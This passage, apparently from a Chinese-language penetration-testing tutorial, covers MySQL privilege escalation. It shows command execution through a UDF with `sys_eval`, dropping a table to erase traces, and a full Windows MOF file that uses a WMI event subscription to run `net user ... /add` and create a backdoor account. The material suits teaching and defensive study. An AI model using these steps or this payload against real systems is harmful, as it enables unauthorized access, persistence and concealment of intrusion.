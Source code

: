 5. 通过自定义函数，执行相应系统功能

   ```sql
   select sys_eval('whoami');
   ```

   ![执行功能](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300939908.png)

6. 消除痕迹，删除表

   ```sql
   DROP TABLE laffrex;
   ```


### 3. mof提权

#### (1). 原理

* 利用`c:/windows/system32/wbem/mof/`目录下的`nullevt.mof`文件，该文件每分钟都会在一个特定的时间去执行一次的特性，通过**写入cmd命令**使其被带入执行

#### (2). 利用条件

1. **Windows <= 2003**
2. 对mof目录有读写权限
3. 可以实现写mof文件到相应目录
   * 数据库允许外联
   * 存在webshell
   * 有可写的sql注入漏洞等

#### (3). mof文件

```vbscript
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
	EventNamespace = "Root\\Cimv2";
	Name  = "filtP2";
	Query = "Select * From __InstanceModificationEvent "
			"Where TargetInstance Isa \"Win32_LocalTime\" "
			"And TargetInstance.Second = 5";
	QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
	Name = "consPCSV2";
	ScriptingEngine = "JScript";
	ScriptText =
	"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user cxk666 cxk666 /add\")";
};

instance of __FilterToConsumerBinding
{
	Consumer   = $Consumer;
	Filter = $EventFilter;
};

```
